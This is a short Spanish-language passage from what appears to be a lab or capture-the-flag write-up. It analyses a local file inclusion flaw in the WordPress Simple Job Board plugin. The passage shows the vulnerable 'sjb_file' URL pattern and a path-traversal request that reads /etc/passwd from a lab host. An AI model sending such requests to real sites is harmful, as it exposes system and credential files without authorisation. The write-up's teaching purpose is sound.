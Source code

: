 ## Mini Code Analysis
Antes de seguir quiero explicar de forma resumida que hace el PoC que hemos explotado.

Construye una URL maliciosa:
```text
wp-admin/post.php?post=application_id&action=edit&sjb_file=<ruta_del_archivo>
```

Y parece ser que el parámetro `sjb_file` es vulnerable a LFI, luego simplemente se realiza la petición de tipo GET y se consigue el contenido del archivo especificado.

Analizando el código de `simple-job-board/includes/class-simple_job_board_resume_download_handler.php` vemos que en ningún momento se filtra el parámetro `sjb_file` y directamente se construye una ruta de archivo utilizando el valor de este parámetro.
![Write-up Image](images/Screenshot_11.png)
Para hacerlo manualmente, simplemente hacemos una petición GET (desde el navegador mismamente) a esta ruta (por ejemplo)
```text
http://devoops.bsh/wordpress/wp-admin/post.php?post=application_id&action=edit&sjb_file=../../../../etc/passwd
```

Al hacerlo se nos descarga el archivo deseado.
![Write-up Image](images/Screenshot_12.png)
